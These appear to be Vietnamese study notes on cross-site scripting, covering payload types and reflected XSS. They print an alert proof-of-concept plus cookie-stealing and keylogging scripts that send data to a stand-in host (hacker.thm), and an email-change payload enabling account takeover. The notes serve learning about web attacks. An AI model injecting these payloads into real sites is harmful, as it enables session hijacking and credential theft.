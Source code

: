 # 1. What is XSS payload?
- Trong XSS, payload là JS code mà ta muốn execute trên target computer. Payload gồm: intention (ý muốn) & modification (sửa code).
- Ví dụ XSS Intention:
	+ **Proof of Concept**: chứng minh website có XSS. Thường chỉ cần alert box pop-up trên page: `<script>alert('XSS');</script>`.

	+ **Session Stealing**: như login token (kept in cookies on the targets machine). Khi attacker có các cookies này, họ có thể tiếp quản target's session và đăng nhập vào user. 
		+ `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`: đoạn mã JS này lấy target's cookie, mã hóa base64 rồi truyền và post lên website dưới sự kiểm soát của attacker.

	+ **Key Logger**: bất kỳ bạn type on webpage sẽ đc chuyển tới website under the attack's control. Rất nguy hiểm nếu payload là user login hoặc credit card details.
		+ `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`: đoạn mã đóng vai như key logger.

	+ **Busniess logic**: gọi cụ thể network resource hoặc JS function. Ví dụ JS function để đổi user's email address gọi là `user.changeEmail()`.
		+ Payload: `<script>user.changeEmail('attacker@hacker.thm');</script>` làm cho email của account thay đổi, attacker có thể thực hiện reset password attack.

# 2. Reflected XSS
- Xảy ra khi data do user cung cấp trong HTTP request nằm trong webpage source mà không cần xác thực.

## 2.1 Example scenario
![XSS R](/images/xss_r.png)
- Khi bạn nhập nội dung cho **error** param trong query string và nội dung đó được đưa vào trực tiếp trong page source.
- App không check nội dung của **error** param, nó cho phép attacker thêm malicious code.

![XSS R](/images/xss_r2.png)
